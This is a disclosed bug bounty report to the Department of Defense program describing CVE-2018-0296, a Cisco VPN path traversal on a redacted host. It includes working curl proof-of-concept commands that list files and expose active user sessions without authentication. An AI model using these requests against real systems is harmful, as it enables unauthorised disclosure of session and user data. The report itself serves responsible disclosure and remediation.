 # [CVE-2018-0296] Cisco VPN path traversal on the https://1████████ (https://████████.███.████████/)

## Report Details
- **Report ID**: 694861
- **URL**: https://hackerone.com/reports/694861
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-14T13:40:05.700Z
- **Disclosed**: 2024-07-19T14:22:33.580Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://1███████ in ████████ network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)


##POC
```
curl -i -k "https://1████/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
████████

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://1█████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://███.████.█████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cacuse DOS attacks

## Attachments
No attachments
